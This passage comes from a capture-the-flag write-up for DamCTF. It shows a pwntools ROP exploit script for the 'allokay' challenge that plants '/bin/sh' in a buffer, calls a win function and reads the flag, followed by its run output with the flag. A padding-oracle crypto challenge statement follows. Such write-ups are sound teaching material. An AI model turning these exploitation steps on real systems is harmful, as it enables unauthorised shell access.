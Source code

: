 ```
# prepare payload
rop.call(elf.symbols.win, [elf.symbols.buffer + 3])
payload = rop.chain()

# populate buffer
c.sendline(b'14 /bin/sh\x00')
# skip most of stack
c.sendline('- ' * 11)

# send payload as numbers
for num in group(8, payload):
    c.sendline(str(u64(num, sign=True)))

c.sendline('cat flag')
```

Solution: [solution.py](allokay/solution.py)

```
$ python3 solution.py
[*] './allokay'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for 'allokay'
[+] Opening connection to chals.damctf.xyz on port 32575: Done
[+] Receiving all data: Done (21B)
[*] Closed connection to chals.damctf.xyz port 32575
[+] b'dam{4Re_u_A11_0cK4y}\n'
```

## crypto/cbc-padding-oracle

> You will be provided with an AES-CBC encryptor source code.
>
> The code let you get the encrypted text of `AES_CBC_ENC(A*64 + flag + your_choice_of_input)`.
>
> Also, the code let you check if your encrypted text is intact, in other words, it will decrypt your ciphertext input and will check the padding for the sanity check.
>
> Under this condition, can you launch the padding oracle attack to this program to leak the flag?
>
> [A helpful resource](https://en.wikipedia.org/wiki/Padding_oracle_attack)
>
> *Our solution takes ~8 min, and the server timeout is 15min. If you disconnect, you can reconnect and continue your solution, the key is fixed.*
>
> `nc chals.damctf.xyz 30327`
>
> Downloads: [cbc-padding-oracle.py](cbc-padding-oracle/cbc-padding-oracle.py)
